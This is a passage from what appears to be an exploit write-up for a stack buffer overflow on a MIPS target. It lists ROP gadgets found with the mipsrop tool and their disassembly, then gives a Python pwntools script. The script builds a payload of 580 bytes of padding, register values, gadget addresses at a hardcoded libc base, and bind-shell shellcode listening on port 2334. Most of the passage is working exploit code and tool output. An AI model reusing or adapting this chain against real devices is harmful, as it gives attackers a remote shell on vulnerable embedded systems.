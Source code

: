   pass sleep function addr 000500F0 + base addr to `$s2`

  

- gadagt 3

  We executed sleep and control the new `$ra`, so need some instruction get the value from stack.

  ```
  Python>mipsrop.stackfinder()
  ---------------------------------------------
  |  Address     |  Action   |  Control Jump   |
  ---------------------------------------------
  |  0x000305B0  |  addiu $s3,$sp,0x30+var_18 |  jalr  $s4
  ...
  ```

	value of `$s3 `  get from stack, is the address of shellcode , alse `$s4` is in control.
	
	```
	.text:000305B0                 addiu   $s3, $sp, 0x30+var_18
	.text:000305B4                 move    $a0, $s3
	.text:000305B8                 move    $t9, $s4
	.text:000305BC                 jalr    $t9 ; 
	.text:000305C0                 move    $a1, $s1
	```

- gadget 4

  `$s3` is the shellcode address, so `$s4 `  need execute `$s3`

  ```
  Python>mipsrop.find("move $t9, $s3")
  ---------------------------------------------
  |  Address     |  Action   |  Control Jump   |
  ---------------------------------------------
  |  0x0000B5F0  |  move $t9,$s3  |  jalr  $s3 
  ...
  ```

  ```
  .text:0000B5F0                 move    $t9, $s3
  .text:0000B5F4                 jalr    $t9
  .text:0000B5F8                 move    $a1, $s0
  ```

  `$s4` value is 0x000B5F0 + base addr

- gadget chain

  ```python
  shellcode = asm(shellcraft.mips.linux.bindsh(2334))
  libc_addr = 0x90063000
  addr1 =  0x000512C0
  addr2 = 0x00035348
  addr_sleep = 0x000500F0
  addr3 = 0x000305B0
  addr4 = 0x0000B5F0
  s1 = p32(libc_addr + addr2 )
  s2 = p32(libc_addr + addr_sleep)
  s3 = b"BBBB"
  s4 = p32(libc_addr + addr4)
  ra = p32(libc_addr+addr1)
  
  payload = b"A"*580 + s1 + s2 + s3 + s4 + ra + b"A"*36 + p32(libc_addr+addr3)+ b"D"*24+shellcode
  ```
